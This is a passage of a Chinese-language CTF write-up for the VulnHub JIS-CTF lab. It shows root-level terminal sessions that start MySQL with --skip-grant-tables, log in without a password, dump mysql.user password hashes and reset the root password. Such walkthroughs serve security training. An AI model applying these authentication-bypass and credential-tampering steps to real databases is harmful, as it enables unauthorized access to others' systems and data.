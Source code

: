 *   **mysqld_safe --skip-grant-tables &**
    

```
technawi@Jordaninfosec-CTF01:/var/www$ sudo su rootroot@Jordaninfosec-CTF01:/var/www# whoamirootroot@Jordaninfosec-CTF01:/var/www# lshtmlroot@Jordaninfosec-CTF01:/var/www# mkdir -p /var/run/mysqldroot@Jordaninfosec-CTF01:/var/www# chown -R mysql:mysql /var/run/mysqldroot@Jordaninfosec-CTF01:/var/www# mysqld_safe --skip-grant-tables &[1] 1910root@Jordaninfosec-CTF01:/var/www# 2020-04-10T06:31:09.933846Z mysqld_safe Logging to syslog.2020-04-10T06:31:09.936319Z mysqld_safe Logging to '/var/log/mysql/error.log'.2020-04-10T06:31:09.941145Z mysqld_safe Logging to '/var/log/mysql/error.log'.2020-04-10T06:31:09.959551Z mysqld_safe A mysqld process already exists
```

输出结果如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEP4MzaTzVMy3PyCrzHIbZmYJjcCFKAy1fvOoDW1ok1y0xbKeHUJvwz3Q/640?wx_fmt=png)

接着新开一个终端 mysql -uroot 无密码登陆即可，但作者总是报错。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPKftQAiavDUgHI1os3SFKEFia5UibbXee4T6qKxJmZr4iam99EBlbLnTCPQ/640?wx_fmt=png)

哎！自己还是太弱了，最后该部分补充 Redwand 老师的成功代码。  
[VulnHub] JIS-CTF - redwand

```
root@Jordaninfosec-CTF01:/tmp# mysql -urootWelcome to the MySQL monitor.  Commands end with ; or \g.Your MySQL connection id is 3Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.Oracle is a registered trademark of Oracle Corporation and/or itsaffiliates. Other names may be trademarks of their respectiveowners.Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.mysql>
```

查看数据库如下：

```
mysql> show databases;+--------------------+| Database           |+--------------------+| information_schema || mysql              || performance_schema || sys                |+--------------------+4 rows in set (0.00 sec)
```

查看 mysql.user 表如下：

```
mysql> select host,user,authentication_string,plugin from user;+-----------+------------------+-------------------------------------------+-----------------------+| host      | user             | authentication_string                     | plugin                |+-----------+------------------+-------------------------------------------+-----------------------+| localhost | root             | *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 | mysql_native_password || localhost | mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE | mysql_native_password || localhost | debian-sys-maint | *C46C96C2990814041379A76A744EE3E5026A0D64 | mysql_native_password |+-----------+------------------+-------------------------------------------+-----------------------+
```

更新 root 密码为 123456 如下：

```
mysql> update user set authentication_string=password("123456") where user="root";Query OK, 0 rows affected, 1 warning (0.00 sec)Rows matched: 1  Changed: 0  Warnings: 1mysql>flush privileges;
```
